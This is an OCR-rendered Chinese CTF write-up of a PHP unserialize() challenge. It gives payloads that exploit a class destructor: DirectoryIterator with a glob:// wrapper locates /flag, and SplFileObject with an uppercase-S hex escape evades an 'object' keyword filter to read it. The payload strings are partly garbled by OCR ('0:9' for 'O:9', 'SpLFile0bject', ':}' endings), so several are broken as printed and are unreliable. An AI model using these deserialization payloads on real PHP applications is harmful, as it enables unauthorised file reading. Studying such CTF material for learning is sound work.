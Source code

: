 ```php
}
?>
```

## 关键处1
```php
    if(!preg_match('/object/i',$_GET['cata'])){
        unserialize($_GET['cata']);
    }
    else{
        $cc = new catalogue();
        unserialize(serialize($cc));
    }
```

通过观察存在的类，有一个析构函数的类可以直接利用外，没有其他可以使用。通过观察catalogue类的析构函数，是new一个新类，然后进行echo的操作，这里可以直接联想到原生类的利
用中目录读取文件的类 Directorylterator 类、Filesystemlterator 类以及GlobIterator类

这里只能回显一个文件，需要配合glob协议链接：PHP：glob://-Manual）使用，通过*号来匹配想要的文件名，Payload如下
https://www.php.net/manual/zh/wrappers.glob.php


```php
<?php
error_reporting(0);

class catalogue{
    public $class;
    public $data;
    public function __construct()
    {
        $this->class = "DirectoryIterator";
        $this->data = "glob:///*f*";
    }
}

echo serialize(new catalogue());
// O:9:"catalogue":2:{s:5:"class";s:17:"DirectoryIterator";s:4:"data";s:11:"glob:///*f*";}
```

`?cata=O:9:"catalogue":2:{s:5:"class";s:17:"DirectoryIterator";s:4:"data";s:11:"glob:///*f*";}`

得到文件地址为 /flag

## 第二步：读flag文件 

### 非预期
第二步:读flag文件非预期这里可以直接进行利用catalogue类的析构函数,通过 SplFileObjet类读取flag文件的内容,Payload如下

`?cata=0:9:"catalogue":2:{s:5:"cLass";S:13:"SpLFile0b\6Aect";s:4:"data";s:5:"/flag":}`


__原理：__
<div>?cata=0:9:"catalogue":2:{s:5:"cLass";s:13:"SpLFile0bject";s:4:"data";s:5:"/flag":}</div>
使用大写S可支持16进制解析
<div>?cata=0:9:"catalogue":2:{s:5:"cLass";<span style="color: red;">S</span>:13:"SpLFile0b\6Aect";s:4:"data";s:5:"/flag":}</div>
